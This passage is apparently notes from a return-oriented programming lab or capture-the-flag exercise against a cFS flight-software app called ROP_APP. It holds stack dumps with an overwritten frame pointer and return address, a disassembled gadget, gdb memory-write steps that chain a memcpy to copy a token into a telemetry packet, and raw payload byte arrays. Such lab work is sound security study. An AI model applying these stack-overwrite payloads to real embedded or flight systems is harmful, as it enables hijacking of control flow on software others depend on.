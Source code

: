 ```c
0x93f97ca0:	0x53525150	0x57565554	0x5b5a5958	0x5f5e5d5c
0x93f97cb0:	0x63626160	0x67666564	0x6b6a6968	0x692e7896  // cbc overwrite follow on frame pointer - align to next stack frame
0x93f97cc0:	0x00001f50	0x00000002	0x93f97cf0	0x94900fa2  // ccc next return address for normal operation
0x93f97cd0:	0x0000000b	0x69303834	0x1f500002	0x00000000
0x93f97ce0:	0xfffff000	0x00000000	0x93f97d10	0x94900efc
```
```c
-exec x/4i 0x692e7896
   0x692e7896 <OS_Posix_ModuleAPI_Impl_Init+30>:	lw	ra,12(sp)
   0x692e7898 <OS_Posix_ModuleAPI_Impl_Init+32>:	lw	s0,8(sp)
   0x692e789a <OS_Posix_ModuleAPI_Impl_Init+34>:	addi	sp,sp,16
   0x692e789c <OS_Posix_ModuleAPI_Impl_Init+36>:	ret
```


## copy token into telemetry message struct
Memcpy token from global ch variable to token in struct for telemetry message
```c
typedef struct
{
   uint8   Header[CFE_SB_TLM_HDR_SIZE];
   uint8   token[MAX_STRLEN+1];
} ROP_APP_Token_Pkt;
```

1. -exec set {int}0x93f97c4c=0x40  		    // 64 - size
2. -exec set {int}0x93f97c48=0x949033a8	    // ch - source
3. -exec set {int}0x93f97c44=0x94903320	    // .token - destination
4. -exec set {int}0x93f97c98=0x93f97c9c	    // change frame pointer
5. -exec set {int}0x93f97c9c=0x692dc458	    // call memcpy
6. -exec set {int}0x93f97cbc=0x692e7896 	// align stack frame
```c
[0x40,0x00,0x00,0x00,0xa4,0x33,0x90,0x94,0x20,0x33,0x90,0x94,0x3c,0x3d,0x3e,0x3f,0x40,0x41,0x42,0x43,0x44,0x45,0x46,0x47,0x9c,0x7c,0xf9,0x93,0x58,0xc4,0x2d,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]


0x93f97b70
0x94903314 <rop_app_Token_Pkt>:	0x00c06603	0x00004500	0x00000000	0x66647361
[0x0c,0x00,0x00,0x00,0xa0,0x7c,0xf9,0x93,0xa0,0x7f,0xf9,0x93,0x03,0x66,0xc0,0x00,0x00,0x45,0x00,0x00,0x00,0x00,0x00,0x00,0x9c,0x7c,0xf9,0x93,0x58,0xc4,0x2d,0x69,0x03,0x66,0xc0,0x00,0x00,0x45,0x00,0x00,0x00,0x00,0x00,0x00,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]

[0x40,0x00,0x00,0x00,0xa4,0x33,0x90,0x94,0xac,0x7f,0xf9,0x93,0x03,0x66,0xc0,0x00,0x00,0x45,0x00,0x00,0x00,0x00,0x00,0x00,0x9c,0x7c,0xf9,0x93,0x58,0xc4,0x2d,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]
```
